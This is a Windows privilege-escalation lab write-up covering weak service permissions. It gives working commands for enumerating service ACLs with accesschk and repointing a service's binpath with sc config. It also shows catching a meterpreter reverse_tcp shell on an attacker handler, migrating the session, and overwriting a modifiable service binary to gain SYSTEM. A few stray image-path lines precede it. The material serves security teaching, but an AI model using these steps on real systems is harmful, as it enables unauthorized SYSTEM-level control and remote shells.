



# Weak Service Permissions

This quick lab covers two Windows service misconfigurations that allow an attacker to elevate their privileges:

1. A low privileged user is allowed to change service configuration - for example change the service binary the service launches when it starts
2. A low privileged user can overwrite the binary the service launches when it starts

## 1. Changing Service Configuration

Let's enumerate services with `accesschk` from SysInternals and look for `SERVICE_ALL_ACCESS` or  `SERVICE_CHANGE_CONFIG` as these privileges allow attackers to modify service configuration:


```text
\\vboxsvr\tools\accesschk.exe /accepteula -ucv "mantvydas" evilsvc
or
\\vboxsvr\tools\accesschk.exe /accepteula -uwcqv "Authenticated Users" *
```


Below indicates that the user `mantvydas` has full access to the service:



Let's modify the service and point its binary to our malicious binary that will get us a meterpreter shell when the service is launched:


```text
.\sc.exe config evilsvc binpath= "c:\program.exe"
```




Let's fire up a multihandler in mfsconsole:


```text
msfconsole -x "use exploits/multi/handler; set lhost 10.0.0.5; set lport 443; set payload windows/meterpreter/reverse_tcp; exploit"
```


...and start the vulnerable service:


```text
.\sc.exe start evilsvc
```


..and enjoy the meterpreter session:


Note that the meterpreter session will die soon since the meterpreter binary `program.exe` that the vulnerable service `VulnSvc` kicked off, is not a compatible service binary. To save the session, migrate it to another sprocess:


```text
run post/windows/manage/migrate
```


Even though the service failed, the session was migrated and saved:


## 2. Overwriting Service Binary

From the first exercise, we know that our user has `SERVICE_ALL_ACCESS` for the service `evilsvc`. Let's check the service binary path:


```text
sc.exe qc evilsvc
```



Let's check file permissions of the binary c:\service.exe using a native windows tool `icals` and look for \(M\)odify or \(F\)ull permissions for `Authenticated Users` or the user you currently have a shell with:


```text
icacls C:\service.exe
```



Since c:\service.exe is \(M\)odifiable by any authenticated user, we can move our malicious binary c:\program.exe to c:\service.exe:


```text
cp C:\program.exe C:\service.exe
ls c:\
```



...and get the meterpreter shell once `sc start evilsvc` is executed. Note that the shell will die if we do not migrate the process same way as mentioned earlier:



Since services usually run under `NT AUTHORITY\SYSTEM`, our malicious binary gets executed with `SYSTEM` privileges:


